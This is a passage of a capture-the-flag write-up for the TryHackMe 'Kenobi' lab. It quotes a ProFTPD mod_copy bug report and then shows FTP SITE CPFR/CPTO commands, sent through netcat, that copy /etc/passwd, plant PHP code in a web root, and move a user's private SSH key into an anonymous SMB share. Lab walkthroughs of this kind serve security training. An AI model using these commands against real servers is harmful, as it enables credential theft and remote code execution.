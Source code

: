 ```
214-CPFR <sp> pathname
214-CPTO <sp> pathname
214-UTIME <sp> YYYYMMDDhhmm[ss] <sp> path
214-SYMLINK <sp> source <sp> destination
214-RMDIR <sp> path
214-MKDIR <sp> path
214-The following SITE extensions are recognized:
214-RATIO -- show all ratios in effect
214-QUOTA
214-HELP
214-CHGRP
214-CHMOD
214 Direct comments to root@www01a
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto /tmp/passwd.copy
250 Copy successful
-----------------------------------------
He provides another, scarier example:
------------------------------
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto <?php phpinfo(); ?>
550 cpto: Permission denied
site cpfr /proc/self/fd/3
350 File or directory exists, ready for destination name
site cpto /var/www/test.php
test.php now contains
----------------------
2015-04-04 02:01:13,159 slon-P5Q proftpd[16255] slon-P5Q
(slon-P5Q.lan[192.168.3.193]): error rewinding scoreboard: Invalid argument
2015-04-04 02:01:13,159 slon-P5Q proftpd[16255] slon-P5Q
(slon-P5Q.lan[192.168.3.193]): FTP session opened.
2015-04-04 02:01:27,943 slon-P5Q proftpd[16255] slon-P5Q
(slon-P5Q.lan[192.168.3.193]): error opening destination file '/<?php
phpinfo(); ?>' for copying: Permission denied
-----------------------
test.php contains contain correct php script "<?php phpinfo(); ?>" which
can be run by the php interpreter
Source: http://bugs.proftpd.org/show_bug.cgi?id=4169
```
It looks like we can just request the file we need by "Copy File From(CPFR)" and then "Copy To (CPTO)". Lets check out the syntax requirements. We already know that ftp port exists, through nmap but will not accept anonymous access. Lets open up a netcat session to attempt connection.
```
~/CTF/tryhackme/kenobi$ nc $IP 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.80.223]
SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /home/kenobi/share/id_rsa
250 Copy successful
```
Now lets check out the smb anonymous share to see if we have that file.
```
~/CTF/tryhackme/kenobi$ smbclient //$IP/anonymous
Enter WORKGROUP\karti's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 22 07:48:26 2020
  ..                                  D        0  Wed Sep  4 11:56:07 2019
  id_rsa                              N     1675  Sat Aug 22 07:48:26 2020
  log.txt                             N    12237  Wed Sep  4 11:49:09 2019

		9204224 blocks of size 1024. 6877092 blocks available
```